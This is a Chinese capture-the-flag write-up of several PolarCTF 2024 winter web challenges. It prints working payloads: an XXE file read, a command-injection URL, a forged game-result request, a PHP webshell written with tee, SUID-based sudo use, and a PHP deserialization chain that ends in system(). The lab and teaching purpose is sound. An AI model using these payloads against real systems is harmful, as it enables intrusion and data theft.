








# PolarCTF-2024冬季赛 （WEB）-先知社区

> **来源**: https://xz.aliyun.com/news/16061  
> **文章ID**: 16061

---

## Note

dirsearch扫到dockerfile文件

```
FROM craigmcmahon/apache-php:v1.3.1

# 安装必要的包
RUN apk update && apk add apache2 apache2-utils

# 检查并创建 www-data 用户和组
RUN id -u www-data || adduser -u 82 -S www-data -G www-data

# 创建 html 文件夹
RUN mkdir -p /var/www/

# 复制题目文件到容器
COPY . /var/www/

# 确保 rewrite_module 和 ServerName 配置
RUN grep -q "LoadModule rewrite_module" /etc/apache2/httpd.conf || \
    echo "LoadModule rewrite_module /usr/lib/apache2/modules/mod_rewrite.so" >> /etc/apache2/httpd.conf
RUN echo "ServerName localhost" >> /etc/apache2/httpd.conf

# 设置权限
RUN chmod -R 755 /var/www/ && \
    touch /var/www/debug.log && \
    chmod 666 /var/www/debug.log && \
    chown -R www-data:www-data /var/www/

# 暴露服务端口
EXPOSE 80

```

后门有个提交xml内容的路由，我们读文件

```
xml=<%3fxml+version%3d'1.0'%3f>
<!DOCTYPE+any[<!ENTITY+test+SYSTEM+"file%3a///proc/self/cmdline">]>
<comment>
<text>%26test%3b</text>
</comment>
```



## 赌王

第一层需要爆破1000次拿到目录`ed3d2c21991e3bef5e069713af9fa6ca`



第二关需要比大小，我们可以数组传参绕过

```
e744f91c29ec99f0e662c9177946c627.php
```



第三关需要伪造xff为1.1.1.1，然后命令拼接rce

```
e744f91c29ec99f0e662c9177946c627.php?input=127.0.0.1;cat+/f*

```



## button

审计前端代码，发现路由，但是需要玩游戏通过才能请求


那么我们抓包请求就可以拿到flag



## 井字棋

Js小游戏下井字棋，通过源代码找到发包post函数，自己发包

```
POST /game.php HTTP/1.1
Host: 23c5f66d-8ca9-4537-a028-65897af6bca5.www.polarctf.com:8090
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:133.0) Gecko/20100101 Firefox/133.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: close
Upgrade-Insecure-Requests: 1
Priority: u=0, i
Content-Type: application/json
Content-Length: 19

{"winner":"player"}

```



## 坦诚相见

index.php

```
<?php
include 'no.php';
if ($_SERVER["REQUEST_METHOD"] == "POST") {
    $rec = $_POST['rce'];
    ob_start();
    @system($rec);
    $output = ob_get_clean();
}
?>
<!DOCTYPE html>
<html lang="zh-CN">
<head>
    <meta charset="UTF-8">
    <title>如此坦诚</title>
    <link rel="stylesheet" href="styles.css">
</head>
<body>
    <h1>什么都在这里了</h1>
    <form method="post" action="">
        <label for="rce">大胆执行就好了</label>
        <input type="text" id="rce" name="rce" required>
        <br>
        <input type="submit" value="提交并执行">
    </form>
    <?php if (isset($output)): ?>
        <h2>执行结果：</h2>
        <pre><?php echo htmlspecialchars($output, ENT_QUOTES, 'UTF-8'); ?></pre>
    <?php endif; ?>
</body>
</html>

```

no.php

```
<?php
function containsPathTraversal($input) {
    $patterns = [
        '/\.\.\//',      
        '/\/\//',        
        '/\%2e\%2e\//',  
        '/\%2E\%2E\\/', 
        '/flag/',
        '/\//',
        '/>/'
    ];

    foreach ($patterns as $pattern) {
        if (preg_match($pattern, $input)) {
            return true;
        }
    }
    return false;
}
if (isset($_POST['rce']) && containsPathTraversal($_POST['rce'])) {
    die('不不不，我也有底线的，至少在这个文件夹内，你随意');
}
?>
<!DOCTYPE html>
<html lang="zh-CN">
<head>
    <meta charset="UTF-8">
    <title>在干嘛？</title>
</head>
<body>
    <h1>这里什么也没有</h1>
</body>

```

过滤了>写文件，并且还过滤了`/`导致不能反弹shell，我没用tee写文件绕过

```
echo "<?php eval(\$_POST[1]);"|tee 1.php
```



然后蚁剑连上提权发现sudo有suid权限

```
find / -perm -4000 2>/dev/null

/bin/busybox
/usr/bin/sudo
/usr/sbin/suexec

```

直接cat flag

```
sudo cat flag

```

## ezezser

dirsearch扫描到git泄露  
我们用githacker拉下来

```
githacker --url http://8f1b9150-1881-4943-92f8-4196742fec0e.www.polarctf.com:8090/.git/ --output-folder
./Desktop/data

```

然后查看git的详细记录

```
git show

```



找到一些不同的内容，完整源码如下

```
<?php
error_reporting(0);
highlight_file(__FILE__);

$polarday=$_GET['polarday'];
$polarnight=$_GET['polarnight'];

if(isset($polarday) && isset($polarnight)){
    $polar520 = unserialize($_COOKIE['polar520']);
    $polar520>login($polarday,$polarnight);
}
class backDoor{
    private $key;
    public function getInfo(){
        eval($this>key);
    }
}
class info{
        private $polar520='nukaka';
        public function getInfo(){
            return $this>polar520;
        }
    }

    class polar520{
        private $polarday='nukaka';
        private $polarnight='nukaka';
        private $polar=false;
        private $class = 'info';

        public function __construct(){
            $this>class=new info();
        }
        public function login($a,$b){
            return $this>polarday===$a&&$this>polarnight===$b;
        }
        public function __destruct(){
            $this>class>getInfo();
        }
    }

```

构造php 反序列化链:  
从destruct触发然后调用backDoor类的后门函数，需要url编码传进cookie

```
<?php
if (isset($polarday) && isset($polarnight)) {
    $polar520 = unserialize($_COOKIE['polar520']);
    $polar520->login($polarday, $polarnight);
}
class backDoor
{
    private $key;
    public function getInfo()
    {
        eval($this->key);
    }
    public function __construct()
    {
        $this->key = "system('cat /f*');";
    }
}
class info
{
    private $polar520 = 'nukaka';
    public function getInfo()
    {
        return $this->polar520;
    }
}

class polar520
{
    private $polarday = 'nukaka';
    private $polarnight = 'nukaka';
    private $polar = false;
    private $class;


    public function login($a, $b)
    {
        return $this->polarday === $a && $this->polarnight === $b;
    }

    public function __construct()
    {
        $this->class = new backDoor();
    }
}
$a = new polar520();
echo urlencode(serialize($a));

```

成功命令执行


